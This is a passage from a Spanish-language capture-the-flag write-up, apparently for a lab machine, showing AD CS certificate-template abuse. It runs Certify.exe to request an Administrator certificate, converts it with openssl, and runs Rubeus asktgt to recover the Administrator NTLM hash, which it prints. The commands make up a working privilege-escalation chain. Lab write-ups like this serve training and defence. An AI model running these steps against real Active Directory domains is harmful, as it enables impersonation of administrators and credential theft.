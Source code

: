 ```js
        WriteDacl Principals        : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : sequel\Administrator          S-1-5-21-4078382237-1492182817-2568127209-500
                                      sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
```


- Como vemos, hay una template vulnerable; la usamos para obtener un certificado y su respectiva key privada con la herramienta `Certify`, pasándole como argumento el Host del certificado, el nombre de la template vulnerable y el nombre del usuario por el que nos queremos hacer pasar:


```bash
C:\Users\Ryan.Cooper\Documents> ./Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

```js
[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

- Obtenemos el certificado y la key privada del usuario `"Aministrator"`; ahora realizamos los pasos que nos indica la misma herramienta para poder crear un archivo válido de certificado `".pfx"` el cual usaremos posteriormente para obtener el hash del usuario "Administrator"

- Guardamos el certificado y la key privada en un archivo `"cert.pem"`

- Ejecutamos el siguiente comando para generar el archivo cert.pfx:

```bash
$openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

- Creamos una contraseña para proteger el archivo .pfx y la confirmamos (en este caso "hola123").

- Con este certificado ya creado, lo transferimos a la máquina víctima y también el binario de [Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe) el cual usaremos para obtener el hash `NTLM` de "Administrator".

- En el sistema víctima, con el archivo .pfx y el binario de Rubeus descargados, ejecutamos el siguiente comando para generar las credenciales:

```bash
C:./Rubeus asktgt /user:Administrator /certificate:cert.pfx /password:hola123 /getcredentials
```

```js
[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : A52F78E4C751E5F5E17E1E9F3E58F4EE
```
